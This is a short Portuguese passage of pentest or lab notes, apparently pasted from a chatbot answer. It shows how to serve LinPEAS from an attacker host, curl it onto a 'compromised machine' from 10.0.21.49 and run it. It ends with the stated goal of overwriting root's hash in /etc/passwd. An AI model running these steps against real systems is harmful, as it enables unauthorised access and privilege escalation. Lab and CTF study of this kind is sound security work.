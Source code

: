 `python3 -m http.server 80`

Você verá:

nginx

CopiarEditar

`Serving HTTP on 0.0.0.0 port 80 ...`


---

### 🔹 **2. Na máquina comprometida (na shell do alvo):**
importante esta em um diretorio onde podda escrever por exemplo /tmp
📥 Baixe o script com `curl`:

bash

CopiarEditar

`curl http://10.0.21.49/linpeas.sh -o linpeas.sh`

> ✅ Use **seu IP real de VPN/Kali** (confirme com `ip a` se necessário).

---

### 🔹 **3. Dê permissão de execução:**

bash

CopiarEditar

`chmod +x linpeas.sh`

---

### 🔹 **4. Execute o LinPEAS:**

bash

CopiarEditar

`./linpeas.sh`


---



---

## ✅ Etapas Exatas — Igual ao PDF e Book HackTricks

### 📌 Objetivo:

Editar **o arquivo real `/etc/passwd`** diretamente e colocar o novo hash na linha do `root`.

---
